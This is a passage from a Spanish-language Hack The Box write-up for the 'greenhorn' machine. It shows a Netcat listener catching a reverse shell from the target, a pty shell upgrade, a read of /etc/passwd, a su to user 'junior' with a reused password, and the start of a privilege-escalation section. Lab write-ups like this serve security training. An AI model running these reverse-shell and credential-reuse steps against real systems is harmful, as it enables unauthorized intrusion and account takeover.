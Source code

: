 ```terminal
/home/kali/Documents/htb/machines/greenhorn:-$ nc -lnvp 1234
	listening on [any] 1234 ...
```

![](/assets/img/htb-writeup-greenhorn/greenhorn2_5.png)

Una vez subido el módulo, la reverse shell se activa, y obtengo acceso remoto al sistema con los privilegios del usuario 'www-data'.

```terminal
	...connect to [10.10.16.75] from (UNKNOWN) [10.10.11.25] 35624

$ python3 -c 'import pty;pty.spawn("/bin/bash")'

www-data@greenhorn:/$ whoami
www-data
```

```terminal
www-data@greenhorn:/$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
git:x:114:120:Git Version Control,,,:/home/git:/bin/bash
junior:x:1000:1000::/home/junior:/bin/bash
```

Resulta ser que la contraseña 'iloveyou1' es valida para el usuario 'junior'.

```terminal
www-data@greenhorn:/$ su junior
password: iloveyou1

junior@greenhorn:~$ cat user
```

---
## Privilege Escalation

En el directorio principal del usuario 'junior', encontré un archivo PDF titulado 'Using OpenVAS.pdf'.

Para analizarlo en mi máquina local, transfiero el archivo utilizando Netcat.
